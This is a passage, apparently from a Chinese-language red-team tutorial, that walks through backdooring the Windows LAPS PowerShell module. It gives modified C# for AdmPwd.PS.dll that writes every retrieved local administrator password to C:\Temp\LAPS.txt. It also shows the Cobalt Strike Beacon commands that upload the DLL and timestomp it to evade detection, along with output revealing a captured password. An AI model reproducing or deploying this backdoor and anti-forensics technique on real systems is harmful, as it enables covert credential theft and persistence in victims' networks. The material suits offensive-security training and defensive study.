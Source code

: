     protected override void ProcessRecord()
    {
        foreach (string dn in DirectoryUtils.GetComputerDN(ComputerName))
        {
            PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);
            WriteObject(pi);
        }
    }
}v
```

添加以下后门代码
```
PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);

var line = $"{pi.ComputerName} : {pi.Password}";
System.IO.File.AppendAllText(@"C:\Temp\LAPS.txt", line);

WriteObject(pi);
```

编译并上传为文件```AdmPwd.PS.dll```
```
beacon> upload C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll
```

使用 Beacon 的```timestomp```命令“克隆”```AdmPwd.PS.psd1```的时间戳并将其应用于AdmPwd.PS.dll

```
beacon> timestomp AdmPwd.PS.dll AdmPwd.PS.psd1
beacon> ls
[*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     03/16/2021 17:09:59   en-US
 15kb     fil     08/23/2016 14:40:58   AdmPwd.PS.dll
 5kb      fil     08/23/2016 14:40:58   AdmPwd.PS.format.ps1xml
 4kb      fil     08/23/2016 14:40:58   AdmPwd.PS.psd1
 33kb     fil     09/22/2016 08:02:08   AdmPwd.Utils.dll
```

运行```Get-AdmPwdPassword```然后检查```C:\Temp```,已经生成我们的后门密码副本
```
beacon> ls C:\Temp

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 24b      fil     03/16/2021 18:48:13   LAPS.txt

beacon> shell type C:\Temp\LAPS.txt
WKSTN-2 : P0OPwa4R64AkbJ
```